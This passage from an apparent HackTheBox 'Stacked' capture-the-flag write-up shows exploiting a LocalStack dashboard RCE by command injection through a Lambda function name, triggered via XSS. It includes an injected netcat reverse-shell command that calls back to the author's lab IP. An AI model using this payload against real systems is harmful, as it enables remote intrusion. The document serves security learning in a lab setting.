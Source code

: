 The box did not have `nodejs20.x`, so I replaced it with `nodejs12.x` which was present.

This function can be invoked using the `invoke` command:

```
$ aws lambda invoke --function-name my-function out --log-type Tail --endpoint-url http://s3-testing.stacked.htb

{
    "StatusCode": 200,
    "LogResult": "G1szMm1TVEFSVCBSZXF1ZXN0SWQ6IGExMjUwYTcwLWMzOWItMWJmMC0wNzk3LWU3OWE2ZGU2MTgxMSBWZXJzaW9uOiAkTEFURV....,
    "ExecutedVersion": "$LATEST"
}
```

However, there was nothing I could do with this! The machine was serverless, so the container run would die after a few seconds.

### Localstack + AWS --> RCE

So now I know I can at least run Javascript somewhere on the machine. Researching for LocalStack RCE exploits returned these 2 pages:

{% embed url="https://security.snyk.io/vuln/SNYK-PYTHON-LOCALSTACK-1290377" %}

{% embed url="https://www.sonarsource.com/blog/hack-the-stack-with-localstack/" %}

In short, there's an RCE exploit in the dashboard, which I assume is running on port 8080 based the `docker-compose.yml` file.

The specific vulnerability lies in the `functionName` parameter, which is taken fron the name of the Lambda function executed. To exploit this, I have to specify a malicious function name within the AWS instance.

This is triggered from loading the dashboard, so I can change the initial XSS payload to just visit `http://127.0.0.1:8080` instead of loading a remote script via `document.location`.

Based on the SonarSource blog, the payload is just the command to be executed:

```
aws lambda get-function --function-name test;touch sonarsource.txt
```

To exploit this, I created a new function:

```
$ aws lambda create-function --function-name "test;ping -c 1 10.10.14.18; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.18 443 >/tmp/f"....
```

The `ping` command is used for making sure it works. Afterwards, I made the site visit `http://127.0.0.1:8080` via XSS, and I got a shell!

![](../../../.gitbook/assets/htb-stacked-image-9.png)
